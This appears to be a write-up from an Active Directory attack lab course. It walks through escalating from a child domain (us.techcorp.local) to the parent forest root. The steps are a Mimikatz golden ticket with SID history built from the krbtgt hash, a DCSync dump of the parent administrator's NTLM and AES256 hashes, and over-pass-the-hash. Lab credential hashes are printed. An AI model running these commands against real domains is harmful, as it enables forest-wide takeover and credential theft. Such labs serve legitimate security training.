



# Hands-on 21: Cross Domains Attacks - krbtgt

- [Hands-on 21: Cross Domains Attacks - krbtgt](#hands-on-21-cross-domains-attacks---krbtgt)
  - [Task](#task)
  - [Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local](#using-da-access-to-ustechcorplocal-escalate-privileges-to-enterprise-admin-or-da-to-the-parent-domain-techcorplocal-using-the-krbtgt-hash-of-ustechcorplocal)

---

## Task

Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local.

<br/>

---

## Using DA access to us.techcorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, techcorp.local using the krbtgt hash of us.techcorp.local

Referring to [Hands-on 14: Golden Tickets](l14-GoldenTicket.md), here is the krbtgt hash:

```
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b0975ae49f441adc6b024ad238935af5
```

<br/>

First get an InviShell:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

<br/>

Use Mimikatz to set SID History for the `Domain Controllers Group` for `us.techcorp.local`:

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::golden /user:us-dc$ /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /groups:516 /krbtgt:b0975ae49f441adc6b024ad238935af5 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /ptt"'
```

  

<br/>

Perform a DCSync to dump the hashes of `techcorp\administrator`:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'
```

  

<br/>

Note:
techcorp\administrator
- SID: `S-1-5-21-2781415573-3701854478-2406986946-500`
- NTLM: `bc4cf9b751d196c4b6e1a2ba923ef33f`
- AES256: `58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883`

<br/>

Perform over-pass-the-hash:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```

```
. C:\AD\Tools\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"sekurlsa::pth /domain:techcorp.local /user:administrator /aes256:58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 /run:powershell.exe"'
```

  
